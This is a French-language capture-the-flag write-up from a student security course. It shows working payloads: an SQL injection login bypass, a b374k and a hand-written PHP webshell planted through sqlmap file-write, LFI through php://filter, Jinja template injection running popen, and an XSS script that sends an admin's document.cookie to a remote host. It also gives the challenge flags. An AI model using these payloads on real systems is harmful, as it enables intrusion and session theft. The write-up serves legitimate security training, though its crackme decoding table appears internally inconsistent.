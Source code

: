 # SRS Capture The Flag
Dans le cadre de l'UV SRS à l'IMT Lille Douai, Advens nous a proposé de participé à un CTF (Capture The Flag) afin de nous former aux techniques de ethical hacking.
Ce document nous permettra d'expliquer les méthodes que nous avons employé pour résoudre les différents challenges de ce CTF. 


## Web

### Baby Web
Ce challenge commence sur une page d'authentification comprenant 2 champs : login/password. Afin de forcer le passage de cette page, nous avons utilisé une **injection SQL** en complétant l'un des champ avec le code suivant : `'OR 1=1'`.
> En effet, en supposant que la requête SQL executée du coté serveur est du type `SELECT * from admins WHERE login='$login' AND password='$password'`. Notre injection permettra d'avoir le code suivant exécuté du coté serveur et donc de forcer l'accès : `SELECT * from admins WHERE login=''OR 1=1'' AND password=whatever`.

Cela nous donne accès à une page d'upload de fichier sur le serveur. Afin de gagner un accès au serveur, nous allons injecter un shell via ce service d'upload. Nous utiliserons le webshell de  [b374k](https://github.com/b374k/b374k).
On génère un webshell grâce aux commandes suivantes : 
```
> git clone  https://github.com/b374k/b374k
> cd b374k
> php  -f  index.php  --  -o  shell.php  -p  password123
```
Il nous suffit donc du l'uploader sur le serveur pour avoir accès au serveur. Nous obtenons un shell avec les droits de l'application web. Ces droits nous permettent de mener nos investigations sur l'ensemble du serveur et notament dans le repertoire `/root` où nous trouverons le premier flag [[screenshot]](https://raw.githubusercontent.com/migonidec/SRS_CTF/master/images/web/babyWeb/babyWeb_4.PNG). 
```
> cat /root/flag.txt
advens{easy_baby_web}
```

### Pentester Adventures
Ce challenge nous amène sur un site bloqué par la NSA et donc non-indexé. L'indexation d'un site est géré par le fichier `robots.txt` qui est situé à la racine du site [doc](http://robots-txt.com/). Lors de la consultation de ce document, on voit que le site comprend 2 pages [[screenshot]](https://raw.githubusercontent.com/migonidec/SRS_CTF/master/images/web/pentesterAdventures/pentesterAdventures_1.PNG) : 
 - `/dict.txt` : une suite d'identifiants et de mots de passe au format texte
 - `/nsa-secure-scripts.php` : une page d'identification avec un couple login:mdp. Nous allons tenter d'utiliser le fichier `dict.txt` pour brute-forcer l'accès à cette page.

La page d'identification renvois une erreur *wrong login* lorsque le login ne correspond pas à un utilisateur connu. Nous pouvons donc supposer qu'en testant tous les identifiants, nous arrivrons à un message du type *wrong password*, et donc une taille de réponse différente.
Avec le logiciel Burp, nous allons intercepter une requête d'identification et faire varier uniquement le login en se servant du fichier `dict.txt`. On compare ensuite les tailles des réponses pour identifier le bon login [[screenshot]](https://raw.githubusercontent.com/migonidec/SRS_CTF/master/images/web/pentesterAdventures/pentesterAdventures_5.PNG). De la même manière, on peux identifier le mot de passe de la page pour arriver au coupe `qwertyui:security` [[screenshot]](https://raw.githubusercontent.com/migonidec/SRS_CTF/master/images/web/pentesterAdventures/pentesterAdventures_7.PNG). 

On accède enfin à une page qui liste 2 liens : une capture d'un ping local et un fichier de configuration php à l'adresse suivante `/nsa-secure-scripts.php?script=scripts/phpinfos.php`. En se referant à cette [documentation](https://www.idontplaydarts.com/2011/02/using-php-filter-for-local-file-inclusion/), on injecte `php://filter/convert.base64-encode/resource=nsa-secure-scripts.php` pour inspecter le code source de la page [[screenshot]](https://raw.githubusercontent.com/migonidec/SRS_CTF/master/images/web/pentesterAdventures/pentesterAdventures_9.PNG). C'est ainsi qu'on remarque le bloc de code suivant : 
```
if(isset($_GET['cmd_shell_params'])){
	system($_GET['cmd_shell_params']);
}
```
Grâce à cette option, on peut réussir à ouvrir un shell sur le serveur cible. Ainsi, on fait une recherche sur les fichiers `*.txt` pour localiser le flag et l'afficher sur la page web [[screenshot]](https://raw.githubusercontent.com/migonidec/SRS_CTF/master/images/web/pentesterAdventures/pentesterAdventures_11.PNG).

### Cookie hacker
La page de ce challenge nous permet de poster des messages et donc potentiellement de tenter une attaque XSS. Nous allons tenter de voler un cookie administrateur (fichier `document.cookie`) pour pouvoir nous identifier sur la page d'administration. 
Cependant, le serveur étant en "maintenance", les messages d'injection XSS de type `<script>alert()</script>` ne sont pas envoyé par le serveur. Nous allons donc tenter d'injection un script permettant de rediriger le contenu du `document.cookie` vers un autre serveur : 
```
<script>
	document.location="https://remoteadresse" + document.cookie;
</script>
```
Grâce au site [Request Inspector](https://requestinspector.com/) nous allons pouvoir récupérer le resultat de notre script et donc récupérer le cookie administrateur. [[screenshot]](https://raw.githubusercontent.com/migonidec/SRS_CTF/master/images/web/cookieHacker/cookieHacker_2.PNG). Ensuite l'extension [Cookie Quick Manager](https://addons.mozilla.org/fr/firefox/addon/cookie-quick-manager/) nous permet d’éditer les cookies et d'injecter notre cookie volé. Une fois le cookie re-injecté, on obtient le flag du challenge.

### Le Blog de Michel
Ce blog interroge une base de donnée pour aller chercher ses articles grâce à une structure d'url `http://url/?page=blog&id=1`. Grâce à `sqlmap` nous allons voir s'il est possible de réaliser une injection SQL [[screenshot]](https://raw.githubusercontent.com/migonidec/SRS_CTF/master/images/web/blogMichel/blogMichel_1.PNG).

Une fois la faille SQL identifié, nous allons injecter un shell dans le serveur cible afin de pouvoir interagir avec lui. 
```
> cat /root/simpleShell.php
<?php
	if(isset($_REQUEST['cmd'])){
		echo "<pre>";
		$cmd = ($_REQUEST['cmd']);
		system($cmd);
		echo "<pre>';
		die;
	}
?>

> sqlmap -u http://blogdemichel.hackdumb.com/?page=blog\&id=1\
--file-write="/root/simpleShell.php"\
--file-dest="../../../../../../tmp/simpleShell.php" 
```
Cette dernière commande `sqlmap` permet d'injecter un fichier local sur le serveur. L'injection de `simpleShell.php` est réalisée dans le dossier `/tmp` afin de ne pas requérir de droit spéciaux. Afin d'atteindre ce dossier on remonte l’arborescence grâce aux multiples `..`.
Grâce à ce webshell on peux interagir avec le serveur et localiser le flag dans `/home/michel`. A noter qu'on utilise l’exécutable `getflag` qui peut être exécuté par tout les utilisateurs. [[screenshot]](https://raw.githubusercontent.com/migonidec/SRS_CTF/master/images/web/blogMichel/blogMichel_5.PNG).

### Mr President
Ce dernier challenge web présente un formulaire qui permet d'afficher du texte sur une autre page web. En injectant un contenu sous la forme `{{...}}`, on remarque que le contenu est exécuté par le serveur web [[screenshot]](https://raw.githubusercontent.com/migonidec/SRS_CTF/master/images/web/mrPresident/mrPresident_1.PNG).
En suivant une documentation fournie par [CTFtime](https://ctftime.org/task/6579), on arrive à déduire que l'application est écrite en python et à réaliser une injection pour exécuter des commandes [[screenshot]](https://raw.githubusercontent.com/migonidec/SRS_CTF/master/images/web/mrPresident/mrPresident_2.PNG).
```
{{url_for.__globals__.os.__dict__.popen(/*commande*/).read()}}
```
On fouillant sur le serveur, on finit par découvrir un executable `runme` qui permet à tous les utilisateurs de lire un fichier `flag` [[screenshot]](https://raw.githubusercontent.com/migonidec/SRS_CTF/master/images/web/mrPresident/mrPresident_3.PNG).

## Forensic

### Simple HTTP
Cette épreuve nous met à disposition une capture de trames où 2 machines échanges des données. 
On suppose que l'une des trame doit contenir un mot de passe ou un flag. En filtrant les trames par protocole, il est facile de repérer un paquet `HTTP/POST`. En inspectant le contenu de cette trame, on trouve rapidement un fichier `flag.txt` encapsulé un paquet `MIME`.  On trouve donc le flag en clair dans cette partie de la trame [[screenshot]](https://raw.githubusercontent.com/migonidec/SRS_CTF/master/images/forensic/simpleHTTP/simpleHTTP_1.PNG).

## Cracking

### Crackme 01
La première étape est de récupérer le fichier à examiner et de déterminer sa nature.
```
> file ./crack
crack: ELF 64-but LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64, 
for GNU/Linux 3.2.0, BuildID[sh1]=31e7ac674a9c314e233a89f5642d4a4219b4794d, not stripped
```
On  a donc un exécutable compilé à analyser, regardons son fonctionnement et ce qu'il contient 
```
> ./crack
Need exactly one argument.
> ./crack testArg
Fail
> strings crack
/lib64/ld-linux-x86-64.so.2
1N#:
d-JB
...
Need exactly one argument.
v}p8XnavgNxphgPOHTz{deKU5sDe
Good flag
Fail 
...
```
L’exécutable `crack` doit recevoir un argument à sa suite. Grâce à la commande `strings` on peux voir que l'argument est surement le flag de cette épreuve. Malheureusement le flag n'apparait pas en clair dans l’exécutable, cependant une chaine de caractère est à noter `v}p8XnavgNxphgPOHTz{deKU5sDe`.
Radare2 est un outil de rétro-ingénierie qui permet d'afficher le code assembleur d'un exécutable. Nous allons utiliser [Cutter](https://github.com/radareorg/cutter) qui est une implémentation graphique de Radare2. La particularité de cette implémentation est de pouvoir afficher les blocs d'instructions assembleurs sous la forme de graphique [[screenshot]](https://raw.githubusercontent.com/migonidec/SRS_CTF/master/images/cracking/crackMe/crackMe_1.PNG).
Nous allons étudier la première action qui est réalisée lorsqu'un argument est entré :
```
lea rax, str.v}p8XnavgNxphgPOHTz{deKU5sDe
mov qword [local_8h], rax
mov rax, qword [local_20h]
add rax, 8
mov rax, qword [rax]
movzx edx, byte [rax]
mov rax, qword [local_8h]
add rax, 6
movzx eax, byte [rax]
cmp dl, al
```
Malgré la relative obscurité de ce code, nous pouvons déduire que l’exécutable compare la premier caractère de l'entrée au 6eme caractère de la chaine `v}p8XnavgNxphgPOHTz{deKU5sDe`.
> A noter que la chaine de caractères est numérotée à partir de zéro, le sixième caractère est donc un `a`

Par la suite, le programme compare 1 à 1 tous les caractères de l'entrée (dans l'ordre) avec la chaine de caractères `v}p8XnavgNxphgPOHTz{deKU5sDe` (dans le désordre). En reconstituant l'ordre de comparaison, on peux donc reconstituer la flag de cet exécutable.
| Ordre de comparaison (hex) | 6 | 14 | 0 | 15 | 5 | 19 | 13 | d | 12 | 9 | 2 |
|---------------------------|--|--|--|--|--|--|--|--|--|--|--|--|
| Ordre de comparaison (dec) | 6 | 20 | 0 | 21 | 5 | 25 | 19 | 13 | 18 | 9 | 2 |
| Flag | a | d | v | e | n | s | { | g | z | N | p |
En suivant ce processus on peux facilement reconstituer le flag de cette épreuve `advens{gzNpgOhXpKe5x8DvPTHU}`
